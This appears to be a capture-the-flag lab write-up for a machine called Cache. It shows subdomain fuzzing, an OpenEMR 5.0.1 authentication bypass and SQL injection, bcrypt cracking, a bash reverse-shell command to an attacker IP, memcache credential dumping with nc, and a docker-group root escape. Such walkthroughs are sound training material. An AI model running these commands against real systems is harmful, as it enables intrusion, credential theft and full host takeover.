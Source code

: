 # Cache

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.211.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 10:30 EDT
Nmap scan report for 10.129.211.212
Host is up (0.0089s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Accidental Subdomain Enum

Port 80 reveals a blog like website:

<figure><img src="../../../.gitbook/assets/image (2633).png" alt=""><figcaption></figcaption></figure>

There's not much here, but we can add `cache.htb` to our `/etc/hosts` file since there's a banner for it on screen. I ran a `gobuster` and `wfuzz` scan on the machine. Funnily, I accidentally had a typo in my `wfuzz` command, and found a completely new domain present:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host:FUZZ.htb' --hw=973 -u http://cache.htb  /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cache.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================
                   
000010187:   302        0 L      0 W        0 Ch        "hms"
```

`hms.htb` is active on this machine. We can visit that.

### OpenEMR

The page shows us a login for OpenEMR, which is known to have a ton of vulnerabilities:

<figure><img src="../../../.gitbook/assets/image (2872).png" alt=""><figcaption></figcaption></figure>

We can head to the Github Repo for this software and attempt to find its version using the default files present:

{% embed url="https://github.com/openemr/openemr" %}

Visiting `sql_patch.php` reveals that this is OpenEMR 5.0.1:

<figure><img src="../../../.gitbook/assets/image (1667).png" alt=""><figcaption></figcaption></figure>

This version has quite a few RCE exploits for it:

```
$ searchsploit openemr 5.0.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
OpenEMR 5.0.1 - 'controller' Remote Code Execution         | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution (1)                  | php/webapps/48515.py
OpenEMR 5.0.1 - Remote Code Execution (Authenticated) (2)  | php/webapps/49486.rb
OpenEMR 5.0.1.3 - Authentication Bypass                    | php/webapps/50017.py
```

There's also an authentication bypass exploit here:

{% embed url="https://www.exploit-db.com/exploits/50017" %}

To bypass it, all we have to do is simply visit `/portal/account/register.php`, and it would treat us as logged in with a valid token. Searching for exploits led me to a [PDF](https://www.open-emr.org/wiki/images/1/11/Openemr\_insecurity.pdf) that had the vulnerability report for v5.0.1.3, and there are lot including a lot of SQL Injections.

Firstly, visiting `/portal/find_appt_popup_user.php` just works as we have 'bypassed' the login.&#x20;

<figure><img src="../../../.gitbook/assets/image (2060).png" alt=""><figcaption></figcaption></figure>

For this case, the second PoC listed works best.&#x20;

<figure><img src="../../../.gitbook/assets/image (480).png" alt=""><figcaption></figcaption></figure>

Using `sqlmap`, we can enumerate and view the stuff in the database. (skipped the enumeration)

<pre><code>$ sqlmap -r req -D openemr -T users_secure --dump
<strong>Table: users_secure
</strong>[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | &#x3C;blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | &#x3C;blank>  | 2019-11-21 06:38:40 | &#x3C;blank>       | &#x3C;blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
</code></pre>

We can crack this hash in `john`.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash      
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)     
1g 0:00:00:00 DONE (2023-05-10 10:53) 5.555g/s 4800p/s 4800c/s 4800C/s lester..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the admin password, we can do RCE.&#x20;

{% embed url="https://www.exploit-db.com/exploits/45161" %}

Remember to use `python2`.&#x20;

```
$ python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' http://hms.htb
```

<figure><img src="../../../.gitbook/assets/image (3650).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ash Creds

I searched all the files within `/var/www` except for OpenEMR for credentials:

```
www-data@cache:/var/www/cache.htb/public_html$ grep -iRl 'Password' ./
./login.html
./index.html
./jquery/functionality.js
```

So here's the stuff within that file:

```javascript
www-data@cache:/var/www/cache.htb/public_html$ cat ./jquery/functionality.js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
```

Using that password, we can `su` to `ash`.

<figure><img src="../../../.gitbook/assets/image (2505).png" alt=""><figcaption></figcaption></figure>

### Memcache

When we enumerate the ports that are open, we can see that port 11211 is listening:

```
ash@cache:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -            
<TRUNCATED>
```

This is the `memcache` service.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/11211-memcache" %}

We can enumerate the items within it:

```
ash@cache:~$ echo "stats cachedump 1 0" | nc -vn -w 1 127.0.0.1 11211 
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

We can grab the password and `su` to `luffy`.

```
ash@cache:~$ echo "get passwd" | nc -vn -w 1 127.0.0.1 11211         
Connection to 127.0.0.1 11211 port [tcp/*] succeeded!
VALUE passwd 0 9
0n3_p1ec3
END
```

### Docker Group

`luffy` is part of the `docker` group.&#x20;

```
luffy@cache:/home/ash$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:/home/ash$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        3 years ago         64.2MB
```

We can just run this command to create an Ubuntu container that is mounted on the main file system, where we have access to the container as `root`. This effectively gives us `root` access to the main file system to make `/bin/bash` an SUID binary.&#x20;

```
luffy@cache:/home/ash$ docker run -it --rm -v /:/mnt ubuntu chroot /mnt bash
root@ee809b31a278:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ee809b31a278:/# cd root
root@ee809b31a278:~# ls
root.txt  run.sh  should_work
root@ee809b31a278:~# chmod u+s /bin/bash
```

Then we can exit this and get a shell with EUID of `root`.

<figure><img src="../../../.gitbook/assets/image (4010).png" alt=""><figcaption></figcaption></figure>
